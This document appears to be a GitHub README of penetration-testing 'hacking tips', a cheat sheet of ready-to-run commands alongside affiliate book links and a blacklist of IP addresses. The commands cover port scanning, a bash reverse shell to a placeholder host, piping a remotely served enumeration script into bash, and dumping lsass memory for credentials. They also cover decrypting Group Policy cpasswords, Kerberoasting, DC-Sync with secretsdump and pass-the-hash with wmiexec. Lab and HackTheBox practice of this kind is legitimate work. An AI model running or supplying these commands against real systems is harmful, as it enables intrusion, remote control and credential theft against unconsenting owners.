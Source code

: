 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://amzn.to/3TGFCpC" target="_blank">The OSINT Handbook: A practical guide to gathering and analyzing online information</a></li>
<li><a href="https://amzn.to/3PwtVzp" target="_blank"> Advanced Penetration Testing with Kali Linux: Unlocking industry-oriented VAPT tactics</a></li>
  <li><a href="https://amzn.to/3VregVQ" target="_blank">Fighting Phishing: Everything You Can Do to Fight Social Engineering and Phishing</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>

<b>Find string with grep</b>
<ul>
  <li> grep -oP '(?<="InsertSearchString": ")[^"]*'
  
</ul>

<b>Run pingcastle fromt CMD </b>
<ul>
  <li> PingCastle.exe --server dc.local --user xxxx --password xxxx --healthcheck
  <li> PingCastle.exe --server x.x.x.x --export users --user domainuser --password domainpassword
  
</ul>

<b>Find in Linux</b>
<ul>
  <li>find -L . -name "foo*"</li>
</ul>

<b>Kerberos attacks </b>
<ul>
  <li> From a non-domain PC: python GetUsersSPN.py -dc-ip x.x.x.x bla.local/account:password -request
  <li> or from a domain joined PC python GetUsersSPN.py bla.local/account:password -request
  <li>
  <li> DC-Sync attack: python secretsdump.py bla.local/account:password@dc1.bla.local
  <li> if that works you can use python wmiexec.py bla.local/account@dc1.bla.local -hashes "insert hash"
</ul>

<b>find installed MSI's</b>
<ul>
  <li> Get-WmiObject Win32_Product | Format-Table IdentifyingNumber, Name
  wmiexec /fa ID
</ul>

<b>Check for AD or Azure AD joined</b>
<ul>
  <li> dsregcmd /status
</ul>


<b>Blacklist IP's when installing letsenscrypt</b>
180.188.243.95
79.137.68.184
134.122.89.242
144.126.198.24
51.81.245.138
45.142.96.48
168.151.165.42
180.149.11.253
119.12.180.71
18.170.66.210
161.35.246.138
51.75.141.254
46.246.122.80
34.220.105.216
185.220.100.247
104.129.18.188
154.47.30.167
84.247.116.160
45.87.212.76
104.244.209.36
34.248.137.227
54.247.57.72
37.19.210.17
66.115.189.222
51.81.46.212
135.148.100.196
96.9.246.196
5.181.234.134
104.166.80.40
104.166.80.254
45.56.71.92
79.125.7.88
66.115.165.233
